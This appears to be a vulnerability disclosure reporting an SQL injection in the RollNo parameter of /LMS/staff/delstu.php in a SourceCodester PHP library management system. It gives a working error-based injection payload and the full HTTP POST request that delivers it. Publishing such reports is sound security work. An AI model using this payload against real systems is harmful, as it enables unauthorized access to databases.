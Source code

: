 # Library Management System v1.0 by kingbhob02 has SQL injection

vendors: https://www.sourcecodester.com/php/15434/library-management-system-qr-code-attendance-and-auto-generate-library-card.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /LMS/staff/delstu.php

Vulnerability location: /LMS/staff/delstu.php, RollNo

[+] Payload: delete=&RollNo=1' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+ // Leak place ---> RollNo

```sql
POST /LMS/staff/delstu.php HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: _ga=GA1.1.1382961971.1655097107; PHPSESSID=7v8p4p3goshl3b4fkncu3bh9ui
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 49

delete=&RollNo=1' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+
```

![image](https://user-images.githubusercontent.com/54017627/180453839-f00aaeca-6652-4c2f-830d-6efbabe2b746.png)
